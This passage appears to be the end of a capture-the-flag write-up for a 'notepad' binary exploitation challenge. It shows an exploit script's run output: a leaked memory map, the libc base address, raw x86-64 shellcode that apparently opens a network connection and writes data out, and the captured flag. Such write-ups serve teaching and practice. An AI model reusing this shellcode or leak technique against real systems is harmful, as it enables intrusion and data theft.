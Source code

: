 ```python

r.interactive()
```
:::

```bash
$ python exp-2.py 28961
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 10.113.184.121 on port 28961: Done
[+] Command Register Successful
[+] Command Login Successful
[+] 55cd58958000-55cd58959000 r--p 00000000 08:01 22676106                   /home/notepad/notepad
    55cd58959000-55cd5895b000 r-xp 00001000 08:01 22676106                   /home/notepad/notepad
    55cd5895b000-55cd5895c000 r--p 00003000 08:01 22676106/home/notepad/notepad
    55cd5895c000-55cd5895d000 r--p 00003000 08:01 22676106                   /home/notepad/notepad
    55cd5895d000-55cd5895e000 rw-p 00004000 08:01 22676106                   /home/notepad/notepad
    55cd595e1000-55cd59602000 rw-p 00000000 00:00 0                          [heap]
    7f8b72c44000-7f8b72c47000 rw-p 00000000 00:00 0
    7f8b72c47000-7f8b72c6f000 r--p 00000000 08:01 22554614                   /usr/lib/x86_64-linux-gnu/libc.so.6
    7f8b72c6f000-7f8b72e04000 r-xp 00028000 08:01 22554614/usr/lib/x86_64-linux-gnu/libc.so.6
    7f8b72e04000-7f8b72e5c000 r--p 001bd000 08:01 22554614                   /usr/lib/x86_64-linux-gnu/libc.so.6
    7f8b72e5c000-7f8b72e60000 r--p 00214000 08:01 22554614                   /usr/lib/x86_64-linux-gnu/libc.so.6
    7f8b72e60000-7f8b72e62000 rw-p 00218000 08:01 22554614                   /usr/lib/x86_64-linux-gnu/libc.so.6
    7f8b72e62000-7f8b72e6f000 rw-p 00000000 00:00 0
    7f8b72e71000-7f8b72e73000 rw-p 00000000 00:00 0
    7f8b72e73000-7f8b72e75000 r--p 00000000 08:01 22554596                   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f8b72e75000-7f8b72e9f000 r-xp 00002000 08:01 22554596                   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f8b72e9f000-7f8b72eaa000 r--p 0002c000 08:01 22554596                   /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f8b72eab000-7f8b72ead000 r--p 00037000 08:01 22554596/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f8b72ead000-7f8b72eaf000 rw-p 00039000 08:01 22554596/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7ffc5d268000-7ffc5d289000 rw-p 00000000 00:00 0[stack]
    7ffc5d35b000-7ffc5d35f000 r--p 00000000 00:00 0                          [vvar]
    7ffc5d35f000-7ffc5d361000 r-xp 0000000000:00 0                          [vdso]
[+] Libc Base address: 0x7f8b72c47000
[+] Puts Address: 0x7f8b72cc7e50
[*] Shellcode = b'H1\xc0\xb0)H1\xff@\xb7\x02H1\xf6@\xb6\x01H1\xd2\x0f\x05I\x89\xc0H1\xc0\xb0*L\x89\xc7H\xc7\xc6\xff\xff\xff\xffI\xb9\xfd\xff\xdd\xc2\x80\xff\xff\xfeL)\xceVH\x89\xe6H1\xd2\xb2\x10\x0f\x05M1\xc9fA\xb9\x87\x87AQH1\xc0\xb0\x01L\x89\xc7H\x89\xe6H1\xd2\xb2\xa4\x0f\x05H1\xc0L\x89\xc7H\x89\xe6H1\xd2f\xba\x04\x01\x0f\x05H1\xc0\xb0\x01H1\xff@\xb7\x01H\x89\xe6H1\xd2\xb2@\x0f\x05'
[+] Done
[*] Switching to interactive mode
\x00\x00\x00\x00flag{why_d0_y0u_KnoM_tH1s_c0WW@nd!?}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
$
```

Flag: `flag{why_d0_y0u_KnoM_tH1s_c0WW@nd!?}`
